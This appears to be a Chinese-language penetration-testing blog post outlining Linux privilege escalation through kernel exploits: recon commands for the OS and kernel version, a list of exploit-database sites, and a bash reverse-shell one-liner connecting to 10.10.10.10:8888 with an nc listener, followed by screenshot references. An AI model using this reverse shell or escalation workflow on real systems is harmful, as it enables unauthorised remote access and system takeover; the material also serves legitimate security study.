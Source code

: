 +++
date = "2016-08-09T19:23:13+08:00"
description = ""
draft = false
tags = ["elevate privileges"]
title = "Linux下系统漏洞提权"
topics = ["Pentest"]

+++

### 0x00 Linux下的提权
Linux下一般都是系统漏洞提权，分为以下几个步骤：
```
1. 获取系统版本号
2. 根据系统版本号找对应exp
3. 反弹shell
4. 尝试利用
```

### 0x01 提权
* 获取系统版本号
    * 获取发行版本
        * cat /etc/*-release
        * cat /etc/issue
        * cat /etc/lsb-release
        * cat /etc/redhat-release
    * 获取内核版本
        * cat /proc/version
        * uname -a
        * uname -mrs
        * rpm -q kernel
        * dmesg | grep Linux
        * ls /boot | grep vmlinuz
* 根据系统版本号找对应exp
    * http://www.exploit-db.com
    * http://1337day.com
    * http://www.securiteam.com
    * http://www.securityfocus.com
    * http://www.exploitsearch.net
    * http://metasploit.com/modules
    * http://securityreason.com
    * http://seclists.org/fulldisclosure
    * http://www.google.com
* 反弹shell
    * 本地：```nc -l -p 8888```
    * 目标机器：```/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1```
* 尝试利用

### 0x02 实例
* 得到系统版本号
![得到系统版本号](/img/post/privilge_escalation_linux_get_sys_version.png)

* 找对应exp
![找相应exp](/img/post/privilge_escalation_linux_search_exp.png)
![保存exp源码](/img/post/privilge_escalation_linux_exp_code.png)

* 反弹shell
![反弹shell](/img/post/privilge_escalation_linux_webshell_rebound_shell.png)

* 提权
![下载exp源码](/img/post/privilge_escalation_linux_write_exp_code.png)
![编译exp源码](/img/post/privilge_escalation_linux_compile_exp_code.png)
![运行exp](/img/post/privilge_escalation_linux_run_exp.png)
